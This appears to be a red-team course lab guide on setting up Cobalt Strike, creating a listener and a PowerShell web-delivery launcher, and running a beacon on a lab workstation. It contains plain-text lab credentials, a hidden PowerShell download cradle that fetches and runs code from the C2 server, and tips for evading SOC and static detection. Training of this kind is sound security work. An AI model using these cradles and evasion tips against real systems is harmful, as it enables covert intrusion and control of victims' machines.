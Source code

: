
### Objectives

    Review the features of Cobalt Strike
    Create a listener
    Create a payload and host it on the C2 server
    Execute the payload in the target environment
    Interact with the Beacon
    Explore Cobalt Strike modules

## Overview 

The cobalt strike client can be found on the student instance, which can be reached via guacamole only. The credentials are:

    url: http://10.130.2.22:8080/guacamole
    username: student
    password: Sec565!!

##### Installation
1. Start the Cobalt Strike client by navigating to C:\Tools\cobaltstrike and double clicking the cobaltstrike application.

![[Pasted image 20240130225807.png]]

2. In the client please fill in the following values:
    `Host:` 10.130.4.100
    Select a username that you really like (or keep Neo)
    As password, please fill in the following sec565@!

3. If everything looks OK, click the Connect button. 

![[Pasted image 20240130225923.png]]
### Create an Cobalt Strike listener
A command and control server is useless if we do not listen for new incoming connections, Let's fix that right now. In this guide we are looking at easiest example to setup a Listener and Launcher/Payload

In Cobalt Strike there are multiple ways to setup a listener:
1.  Click Headphone icon on menu or Click on Cobalt Strike on the top of the menu and then select Listeners. 
2. A new tab is now going to open in the bottom half of your client called Listeners, go ahead and click the Add button.
	1. `Name:` The name of the listener, pick something descriptive for example HTTPS-Short or DNS-Long
	2. `Payload:` This is what type of payload the listener should expect, there are a bunch of options here as Cobalt Strike supports:
        - `Peer-to-peer` connections over `TCP` or `SMB`.
        - Can communicate to the internet over `DNS, HTTP or HTTPS`.
        - There is also support for metasploit through `Foreign` listeners
        - Finally, the concept of `externalC2` which allows you to create your own command and control channel that will interface with Cobalt Strike.

###### Host Rotation 
Cobalt Strike supports host rotation as well, This will make sure that the beacon will rotate hosts on a predefined set of rules.
- It can be set to Random or set as a fallback mechanism. 
- Not only does this help reduce indicators of compromise as the beacon will not phone home to the same IP all the time, it also makes it more robust in case one of your IPs or domain names get blacklisted. 

![[Pasted image 20240130231227.png]]

3. Press the Save button, if all went well a new Listener should be registered and visible in the Listeners tab.
![[Pasted image 20240130231443.png]]
### Create a Launcher payload
Cobalt Strike supports multiple file extensions to generate payloads, ranging from binaries to raw shellcode to PowerShell scripts and yes... even Macros! 

The easiest way to infect a victim is by execution of a PowerShell Script:
1. Navigating to the Attacks tab in the top of your client and selecting `Scripted Web Delivery (S)`
	1. Note:  Cobalt Strike Allows you to generate a malicious script to execute Beacon and host it on the Cobalt Strike server at the same time. *Check OPSEC Tip Below*
2. Please check and fill in the following values:
![[Pasted image 20240130232846.png]]
3. A new Dialogue should appear with the url that you can copy paste. We can also automatically copy the URL back to your clipboard by going to `Site Management -> Manage` on top of your Cobalt Strike Client


*Red Team Tip: It is not smart to take the approach we are showing in this exercise in a stealthy red team.
- *Hosting a malicious PowerShell script directly on the server exposes the IP of the server in case the SOC catches wind of your engagement.
- *A better way to do this would be to have a separate "staging" server that is hardened for example using rewrite conditions based on URL and user agents, it is also smart to modify the generated script so static detections can be bypassed. For example leveraging AWS s3 bucket

### Deliver Beacon  
Time to launch our Beacon. please rdp into wk01 by opening up a terminal on your slingshot
```
xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp
```
1. Open a command prompt by clicking the windows icon in the lower left and typing cmd.exe. Then paste the download cradle 
2. `powershell.exe -nop -w hidden -c "iex(irm -useb http://10.130.4.100:8888/WindowsUpdate)"`
3. The window should disappear and a new beacon should check in and register on the C2.
![[Pasted image 20240130233038.png]]
### Interacting with our beacon 

4. Double click on the Beacon in your Cobalt Strike client, a new Beacon tab will open up on the bottom half of the client.

###### Default Config + Malleaable Profile
- When not using a Malleable Profile (a file that can change the way Cobalt Strike beacons behave, that has to be set on the server side.), Cobalt Strike falls back to default values. 
- By default, Cobalt Strike beacons will sleep for 1 minute, for the sake of this lab, let's change that behavior and make our shorthaul interactive for a while. 

### Modules 


## Research | Bonus

[Malleable-C2-Profiles](https://github.com/BC-SECURITY/Malleable-C2-Profiles)

[GraphStrike: Cobalt Strike HTTPS beaconing over Microsoft Graph API](https://github.com/RedSiege/GraphStrike)

## Conclusion
- In this lab we explored another command and control framework. 
- We created a listener and a PowerShell launcher. 
	- We RDP directly into the environment and used a download cradle to retrieve and execute our launcher. 
	- We explored a few of the tasks/modules that the framework provides including how to transform our shorthaul into an interactive haul instead.



